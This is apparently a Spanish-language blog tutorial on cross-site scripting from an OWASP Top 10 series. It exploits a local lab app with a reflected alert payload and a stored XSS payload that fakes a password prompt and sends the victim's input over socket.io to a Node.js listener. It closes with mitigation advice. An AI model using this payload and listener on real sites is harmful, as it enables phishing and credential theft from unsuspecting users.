 ```yaml
---
layout: post
title:  "Aprende hacking con NodeJS"
description: "Explotando los 10 riesgos mas criticos segun el OWASP VI"
date:   2019-07-15
image:  "img/OwaspTopTen.jpg"
tags:   [Inyeccion XSS, Pentesting WEB, Hacking NodeJS]
---
```


Hello Engineers!  
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual y critica en las aplicaciones web.  

**A7-Cross-site Scripting**  
XSS es el acrónimo usado para “Cross Site Scripting”.   
Es un tipo de vulnerabilidad de los aplicativos web, el cual puede permitir a un atacante inyectar código JavaScript u otro lenguaje similar sobre dicha página web.  
Las fallas que permiten que estos ataques tengan éxito están bastante extendidas y ocurren en cualquier lugar en que una aplicación web utiliza la entrada de un usuario.   

Los daños de un ataque XSS pueden ser los siguientes:  

  - Robar de sesion.  
  - Redireccionar a sitios de phishing, o a páginas falsas.  
  - Descarga de software malicioso.  
  - Keyloggers.  
  - y otros tipos de ataques del lado cliente.  

## Conceptos Basicos  
Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:  

**XSS Reflejado**  
Es el más común de los tipos de XSS, sucede cuando una aplicación o API utiliza datos sin validar, suministrados por un usuario y codificados como parte del HTML o Javascript de salida. Un ataque exitoso permite al atacante ejecutar comandos arbitrarios (HTML y Javascript) en el navegador de la víctima.   
Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, publicidad maliciosa, entre otros.   

**XSS Almacenado**  
Si el código que hemos insertado se queda almacenado en el servidor, por ejemplo formando parte de una contribución en un foro, el ataque se dice que es persistente o almacenado.    
Un ataque XSS persistente puede tener lugar en el caché de una aplicación web o en una base de datos conectada de dichos sitios web. Los ataques persistentes siempre están en el lado del servidor y tienen un gran riesgo potencial.  

**XSS Basados en DOM:**  
Este tipo de XSS es en el que la carga útil de ataque se ejecuta como resultado de la modificación del DOM "entorno" en el navegador de la víctima.    

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## XSS Reflejado  
**Escenario de la prueba #1:**   
Vamos aprender a explotar esta vulnerabilidad por medio de un formulario que realiza busqueda sobre registros previamente ingresados.  

Inicialmente vamos a dirigirnos al apartado para realizar la prueba de inyeccion de XSS reflejada.  
**http://172.17.0.2:9090/app/products**  


<figure>
  <img src="{{site.baseurl}}/img/xss.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss.png" title="Formulario con un campo de búsqueda">Formulario con un campo de búsqueda</a>.
  </figcaption>
</figure>

El aplicativo web anterior se compone de una tabla de registros y un campo para realizar consultas o busqueda sobre dicha tabla.  
Vamos a realizar una inyeccion de codigo javascript usando este campo.  
La carga util "maliciosa" que usaremos es la siguiente:  

{% highlight html %}
<script>alert("Hacked By Gerh")</script>  
{% endhighlight %}    

A continuacion, doy a mostrar el paso a paso para encontrar un formulario vulnerable a inyecciones XSS.  

<figure>
  <img src="{{site.baseurl}}/img/xss-reflejected.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-reflejected.gif" title="Analizando un campo de busqueda vulnerable a XSS">Analizando un campo de busqueda vulnerable a XSS</a>.
  </figcaption>
</figure>

## XSS Almacenado  
**Escenario de la prueba #2:**   
En el escenario anterior aprendimos a realizar una inyeccion XSS reflejada, la cual como se podia apreciar no era persistente debido a que las consultas realizadas no es un dato que se este almacenando en una base de datos.  
El formulario anterior expuesto permite el ingreso de nuevos productos, los cuales son registros que deben estar almacenados en una base de datos.   


<figure>
  <img src="{{site.baseurl}}/img/xss-stored.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.png" title="Analizando posibles registros de la base de datos">Analizando posibles registros de la base de datos</a>.
  </figcaption>
</figure>

En vez de guardar algun registro con palabras normales, vamos a ingresar el siguiente payload.  
En resumen, por medio de la libreria **Socket.io**, vamos a enviarnos las credenciales que sean solicitadas a la victima.

{% highlight html %} 
<!-- Importamos la libreria de socket.io -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/2.2.0/socket.io.dev.js" integrity="sha256-i2Orhi397HWPn93rsCUTW8HBoso65vY/VNTllm9Kuqo=" crossorigin="anonymous"></script> 

<script>
  /* Desplegamos una entrada de texto y solicitamos un dato confidencial para almacenarlo en la variable PassVictim */ 
  var PassVictim = prompt("Por favor ingresa tu contraseña del correo para continuar!", "******");
  alert("Gracias por tu colaboracion")

  /* Le indicamos a socker.io a donde nos vamos a conectar */ 
  var socket = io.connect('http://localhost:8080');
  /* Emitimos un mensaje hacia el servidor concatenando la variable PassVictim, la cual tiene el dato confidencial. */
  socket.emit('message', 'Account Hacked!!  \n' + PassVictim);
</script>  
{% endhighlight %}    

En nuestra maquina atacante, vamos a crear un pequeño servidor con nodejs y codificamos lo siguiente:  

{% highlight js %}  
/* Importando la libreria HTTP */ 
var http = require('http');
/* Importando la libreria FS */
var fs = require('fs');
/* Creamos nuestro servidor haciendo uso de la libreria importada HTTP */
var server = http.createServer(function(req, res) {
    fs.readFile('./index.html', 'utf-8', function(error, content) {
        res.writeHead(200, {"Content-Type": "text/html"});
        res.end(content);
    });
});

/* Por medio de socket.io, dejamos en espera el socket llamado message el cual nos ayudara a recibir las credenciales */
var io = require('socket.io').listen(server);
io.sockets.on('connection', function (socket) {
    socket.emit('message', 'You are connected!');
    socket.on('message', function (message) {
    	/* Luego de recibir un socket, vamos a imprimir el resultado en pantalla */
        console.log(message);
    }); 
});

server.listen(8080);
{% endhighlight %}    

Listo, hemos logrado crear un script para realizar phising aprovechandonos de una inyeccion XSS almacenada.  
A continuacion, vamos a ver el comportamiento de lo previamente construido.  

<figure>
  <img src="{{site.baseurl}}/img/xss-stored.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.gif" title="Realizando un phising con una inyeccion XSS almacenada">Realizando un phising con una inyeccion XSS almacenada</a>.
  </figcaption>
</figure>

Incluso si cerramos la sesion y salimos de la aplicacion, Cuando entremos nuevamente se ejecutara el script debido a que esta almacenado en una base de datos.  

## Recomendaciones  
Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.  
  - Utilizar frameworks seguros que, por diseño, automáticamente codifican el contenido para prevenir XSS, como en Ruby 3.0 o React JS.  
  - Codificar los datos de requerimientos HTTP no confiables en los campos de salida HTML (cuerpo, atributos, JavaScript, CSS, o URL) resuelve los XSS Reflejado y XSS Almacenado.     
  - Habilitar una Política de Seguridad de Contenido (CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales, bibliotecas vulnerables en fuentes conocidas almacenadas en Redes de Distribución de Contenidos (CDN) o localmente.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  


 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)

